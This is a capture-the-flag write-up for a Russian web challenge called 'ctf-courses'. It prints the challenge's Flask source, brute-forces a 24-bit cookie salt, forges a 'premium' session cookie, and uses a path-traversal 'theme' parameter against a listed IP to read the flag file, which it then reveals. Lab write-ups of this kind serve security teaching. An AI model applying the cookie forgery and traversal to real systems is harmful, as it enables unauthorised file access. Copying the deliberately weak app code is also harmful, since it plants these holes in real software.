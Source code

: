 # Web - ctf-courses
## Writeup Author: kebabulon

---

### Task

Кто хочет порешать web, прошу

**server.tar.gz**:

```
|-- app.py
|-- Dockerfile
|-- flag.txt
|-- static
|   |-- 1.jpeg
|   |-- garish.css
|   |-- light_mode.css
|   |-- premium.css
|   |-- style.css
|-- templates
    |-- basic.jinja
    |-- login.jinja
    |-- premium.jinja
```

---

## Solution

First of all we need to find where the flag is. Lets check ```Dockerfile```:

```Dockerfile
FROM python

RUN pip install flask gunicorn pyjwt[crypto]
COPY . /app
RUN mkdir /secret-flag-dir; mv /app/flag.txt /secret-flag-dir/flag.txt
WORKDIR /app

EXPOSE 1234

CMD ["gunicorn", "-b", "0.0.0.0:1234", "app:app", "-t", "4"]
```

Flag's path is ```/secret-flag-dir/flag.txt```.

Now, lets check the website. We are presented with a login page:

![login page](assets/images/ctf-courses_1.png)

The main page:

![login page](assets/images/ctf-courses_2.png)

This doesn't really help us. Let's look at ```app.py```:

```py
from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json
import os

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        file_path = os.path.join(os.path.dirname(__file__), theme_name)
        try:
            with open(file_path, 'r') as file:
                theme_content = file.read()
        except FileNotFoundError:
            theme_content = 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=theme_content)
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode()).decode('utf-8')
    data_hash = hash(b64data + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()

```

There are 2 user types: basic and premium. The premium user has access to different themes:

```py
if payload['user_type'] == 'premium':
    theme_name = request.args.get('theme') or 'static/premium.css'
    file_path = os.path.join(os.path.dirname(__file__), theme_name)
    try:
        with open(file_path, 'r') as file:
            theme_content = file.read()
    except FileNotFoundError:
        theme_content = 'static/premium.css'
    return render_template('premium.jinja', theme_to_use=theme_content)
else:
    return render_template('basic.jinja')
```

This can be used to read ```flag.txt```, but we need to somehow change ```user_type``` in the ```data``` cookie to ```premium```.

The ```data``` cookie is base64 encoded, but its salted hash must match with the ```hash``` cookie:

```py
data = request.cookies.get('data')
decoded = b64decode(data)
data_hash = request.cookies.get('hash')
payload = json.loads(decoded)

...

actual_hash = hash(data + users[payload['username']])

if data_hash != actual_hash:
    return redirect('/login')
```

The user's salt is randomly generated.

```py
users[username] = hex(random.getrandbits(24))[2:]
```

There are 16777215 possible salts, lets bruteforce! 

```py
import hashlib

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

data = "eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogImJhc2ljIn0="
real_hash = "dba862707f3449d26f70eb8da34b31e191d3e3a3f86d2250d97c7597c36a8685"

for i in range(16777216):
    salt = hex(i)[2:]

    hash = hash(data + salt)

    if hash == real_hash:
        print(salt)
        break
```

```
c8edda
```

Well that was pretty quick, lets find our new cookies:

```py
import json
from base64 import b64encode

salt = "c8edda"
data = {
    "username": "keb",
    "user_type": "premium"
}

b64data = b64encode(json.dumps(data).encode()).decode('utf-8')

print(b64data) # data
print(hash(b64data + salt)) # hash
```

```
eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==
cff0797f65c1a86465edbd1f4cd83c495f3adaef4f6aa82ce2d8048d2850ff48
```

And we get the premium page:

![login page](assets/images/ctf-courses_3.png)

As I said earlier, we can use the ```theme``` parameter to access the flag:

```
http://46.188.104.214:1234/?theme=../secret-flag-dir/flag.txt
```

```html
<!DOCTYPE html>
<html lang="ru">
<style> flag{rate_our_courses_from_1_to_10}
 </style>
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Курсы CTF!</title>
</head>
<body>
  <p class="title">Добро пожаловать на сайт!<p>
  <p>Теперь у вас есть возможность использовать темы! Попробуйте одну из нижеуказанных тем:</p>
  <a href='/?theme=static/premium.css'>по умолчанию</a>  <a href='/?theme=static/light_mode.css'>светлый</a>  <a href='/?theme=static/garish.css'>яркий</a>
  <p>Из-за проблем в поставках, мы не можем предоставить вам наши курсы... Извините, и спасибо за поддержку сайта!</p>
</body>
</html>
```

This was pretty fun!

---

### Flag

```
flag{rate_our_courses_from_1_to_10}
```
